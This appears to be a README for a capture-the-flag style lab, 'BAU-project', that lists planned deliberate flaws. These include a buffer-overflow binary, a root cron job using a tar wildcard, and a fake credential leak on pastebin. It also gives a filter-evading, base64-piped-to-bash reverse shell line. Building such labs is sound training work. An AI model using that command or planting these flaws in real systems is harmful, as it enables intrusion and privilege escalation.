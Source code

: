 # BAU-project
## TODO (Zeyad)
1.Create a pastebin containig fake user and password (breach simulation). [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules)
2. Create a binary that can be easily reverse engineered to access some functionality with `golang` or `c`
3. Create a binary vulnerable to BoF to get code execution (optional).
4. Create a CronJob from root running a bad script which is used for backup. (tar *)
5. Cron job to clean /var/log/apache2/access.log

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
